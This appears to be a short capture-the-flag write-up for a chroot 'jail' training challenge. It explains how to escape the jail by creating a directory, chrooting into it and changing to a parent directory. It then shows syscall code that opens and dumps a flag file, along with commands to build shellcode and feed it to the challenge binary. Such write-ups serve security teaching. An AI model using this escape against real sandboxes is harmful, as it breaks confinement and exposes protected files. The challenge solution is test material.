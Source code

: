 In this problem, you are allowed to use the following system calls instead of `fchdir`.
1. Allowing syscall: chdir (number 80)
2. Allowing syscall: chroot (number 161)
3. Allowing syscall: mkdir (number 83)

You can get the hint for this problem from the Linux manual page for `chroot`.
The following commands perform `chroot` to another directory, nullifying the previous `chroot`.
After that, you can freely get out of the jail.
```
mkdir foo; chroot foo; cd ..
```

Use the following code to solve this problem.
```
mkdir("/foo", 0776);
chroot("/foo");
chdir("../../");
open("./flag", O_RDONLY);
sendfile(1, 4, 0, 0x80);
```

Running the following commands will lead you to the flag.
```
gcc -nostdlib -static shellcode.s -o shellcode-elf​
objcopy --dump-section .text=shellcode-raw shellcode-elf​
/babyjail_level7_teaching1 / < ~/shellcode-raw
```
